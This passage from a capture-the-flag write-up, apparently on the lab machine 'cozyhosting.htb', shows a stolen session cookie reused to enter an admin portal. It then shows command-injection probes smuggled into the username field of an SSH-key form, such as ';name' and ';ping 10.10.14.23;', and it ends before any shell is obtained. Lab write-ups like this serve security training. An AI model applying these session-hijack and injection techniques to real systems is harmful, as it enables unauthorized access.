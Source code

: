 From the web browser, we can alter the cookie value :

![[cooky_update.png]]

and change it for the "kanderson" session. With this change, we are now able to enter the admin portal at : http://cozyhosting.htb/admin

![[kanderson.png]]

There is a form at the end of the page :

![[form.png]]

The note :

```json
For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file.
```

This is a for to add some SSH keys.

We can test this form, and we can notice an error condition :

* Hostname = `localhost` (or anything)
* username = `<empty>`

in burpsuite :

![[error.png]]

So this form is used to call ssh system command, and there is a sanitation issue we could use.

Since this is a linux command shell, we can try to mess this command line :

* with username = “;name” :

```json
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]           [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command [argument ...]]/bin/bash: line 1: uname@127.0.0.1: command not found
```

especially :

```text
/bin/bash: line 1: uname@127.0.0.1: command not found
```

also with a ping command :

* username : “;ping 10.10.14.23;”

```
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```
